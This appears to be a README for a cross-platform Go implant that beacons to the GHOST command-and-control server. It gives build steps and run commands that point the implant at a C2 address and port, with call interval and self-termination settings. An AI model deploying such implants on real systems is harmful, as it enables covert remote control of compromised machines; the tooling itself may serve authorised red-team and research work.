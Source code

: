 # Beacon for GHOST

* Cross Platform
* Simple Setup
* Talks to GHOST [C2](https://github.com/bartimus-primed/c2)

### How To

#### Command Format:
#### `implant_executable C2_ADDRESS C2_PORT CALL_INTERVAL DEATH_TIME`
#### supports XXs XXm XXh XXd (seconds, minutes, hours)

run: `go build implant`
* Windows: `.\implant 192.168.253.1 50555 3s 15s`
* Linux: `./implant 192.168.253.1 50555 3s 15s`
* MacOS: haven't tested but should be the same as linux.